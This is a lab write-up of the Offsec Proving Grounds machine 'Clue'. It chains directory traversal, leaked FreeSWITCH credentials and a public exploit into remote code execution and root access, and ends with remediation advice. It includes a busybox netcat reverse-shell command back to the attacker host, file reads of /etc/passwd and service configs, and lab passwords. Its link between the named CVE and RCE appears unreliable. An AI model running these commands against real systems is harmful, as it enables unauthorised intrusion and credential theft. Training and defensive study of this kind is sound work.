# Offsec Proving Grounds - Clue

## Overview

- Difficulty: Advanced
- Community Rating: Very Hard
- Platform: Linux
- Skills Demonstrated: Service Enumeration, FreeSWITCH Enumeration, Burp Suite, Directory Traversal, Remote Code Execution, Linux Privilege Escalation

## Methodology

This assessment follows a standard penetration testing methodology:

- Enumeration
- Web Application Analysis
- Vulnerability Identification
- Exploitation
- Credential Discovery
- Privilege Escalation
- Post Exploitation

---
## Enumeration

Enumeration began with an `Nmap` port scan to identify open ports and services
```
Nmap 192.168.150.240 -sCV -A -p-
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-13 15:03 BST
Nmap scan report for 192.168.150.240
Host is up (0.0092s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE          VERSION
22/tcp   open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp   open  http             Apache httpd 2.4.38
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3000/tcp open  http             Thin httpd
|_http-title: Cassandra Web
|_http-server-header: thin
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (97%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Hosts: 127.0.0.1, CLUE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: clue
|   NetBIOS computer name: CLUE\x00
|   Domain name: pg
|   FQDN: clue.pg
|_  System time: 2026-07-13T10:05:05-04:00
|_clock-skew: mean: 1h20m01s, deviation: 2h18m36s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-07-13T14:05:04
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   13.38 ms 192.168.45.1
2   13.38 ms 192.168.45.254
3   13.40 ms 192.168.251.1
4   13.42 ms 192.168.150.240

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 160.25 seconds
```

Key Findings:
- Port 22 (SSH)
- Port 80 (HTTP)
- Port 445 (SMB)
- Port 3000 (HTTP)
- Port 8021 (FreeSWITCH)

Initial port enumeration was focused on port 80, browsing to the web server running on this port revealed a `403 Forbidden` response, indicating that direct access was restricted and so no further information could be gathered. As a result, further enumeration was then directed towards port 3000.



The web server on port 3000 was found to be hosting **Cassandra Web**, a web-based graphical interface for the **Apache Cassandra** database and allowing for users the execution of **Cassandra Query Language (CQL)** queries.



After exhausting standard web enumeration techniques, including directory brute-forcing, subdomain fuzzing, source code analysis, and inspection, no additional attack surface was identified. Traffic was then proxied through Burp Suite to perform manual testing for common web vulnerabilities.

Using Burp Suite, a **directory traversal** vulnerability was identified, allowing arbitrary files to be read from the underlying system. To confirm the vulnerability the contents of `/etc/passwd` were retrieved.



### Credential Discovery

Once this vulnerability was confirmed and successfully exploited, further investigation was directed to the remaining ports discovered during port enumeration. Since port 8021 was running the FreeSWITCH Event Socket Interface, configuration files were retrieved including `/etc/freeswitch/autoload_configs/event_socket.conf.xml` using the directory traversal vulnerability. 


```
StrongClueConEight021
```

### FreeSWITCH Enumeration

Now with recovered credentials, authentication to the FreeSwitch Event Socket Interface was possible.
```
nc 192.168.150.240 8021
```


Authenticate:
```
auth StrongClueConEight021
<blank line>
```



Once successfully authenticated to the service, further enumeration of the service was performed to identify the version to discover any known vulnerabilities that could be exploited.
```
api status
<blank line>
```



The service was found to be running FreeSWITCH version `1.10.7`. Searching for known vulnerabilities affecting this version identified CVE-2021-41158, which could be leveraged to achieve remote code execution.

## Initial Access

**SIP Digest Leak (CVE-2021-41158)** is a vulnerability affecting certain versions of FreeSWITCH where an attacker can abuse the handling of SIP Digest authentication leading to remote code execution (RCE).

A public exploit for CVE-2021-41158 was identified and tested against the FreeSWITCH service. The exploit was first executed with the `id` command to confirm that remote command execution was possible on the target system.
```
python3 exploit.py 192.168.150.240 id
```



The command executed successfully, confirming that the public exploit works and that commands can be issued remotely on the host.

Next, the exploit was leveraged to establish a reverse shell. The BusyBox Netcat payload was used to spawn an interactive shell after a Netcat listner was started on the attacker machine. 
```
python3 exploit.py 192.168.150.240 "busybox nc 192.168.45.168 80 -e /bin/bash"
```



## Privilege Escalation

After obtaining a foothold on the target system, local enumeration was perfomed to identify privilege escalation paths. Manual enumeration revealed an SSH private key in the home directory of the user `cassie`



Although the current user did not have sufficient permissions to read the file, this indicated a potential privilege escalation path. Access to the key could be used to authenticate via SSH and gain access as a potentially higher-privileged user.  

`LinPEAS` was then executed to find any misconfigurations or exposed credentials. The scan revealed credentials belonging to the `cassie` user.



```
su cassie
SecondBiteTheApple330
```

After switching to the `cassie` user, the previously identified SSH private key was then copied and used to authenticate via SSH as the root user. This resulted in a full system compromise. 


```
 ssh -i id_rsa root@192.168.150.240
```


## Conclusion

This assessment involved exploiting multiple vulnerabilities to gain full system compromise. A directory traversal vulnerability allowed sensitive files to be read from the system, including the FreeSWITCH configuration file containing service credentials. These credentials were used to access the FreeSWITCH Event Socket Interface, where the vulnerable service version was identified and exploited to achieve remote code execution.

Privilege escalation was achieved through credential discovery, allowing access to an SSH private key that was used to authenticate as the root user.

## Lessons Learned

This machine introduced me to technologies I had limited experience with, particularly FreeSWITCH and the Cassandra database. It reinforced the importance of understanding unfamiliar services and using enumeration findings to guide further investigation.

A key takeaway was the value of chaining smaller discoveries together. The directory traversal vulnerability initially provided arbitrary file access, but combining this with service enumeration allowed sensitive FreeSWITCH configuration files to be identified and credentials to be recovered. This machine also highlighted the importance of thorough local enumeration, as exposed credentials ultimately led to root access.

## Remediation

- Implement proper input validation and sanitisation to prevent directory traversal vulnerabilities and restrict access to authorised files only.
- Restrict access to the FreeSWITCH Event Socket Interface.
- Update FreeSWITCH to a patched version to mitigate known vulnerabilities such as CVE-2021-41158.
- Ensure configuration files have appropriate permissions.
- Secure SSH private keys by storing them in protected locations with restrictive permissions.
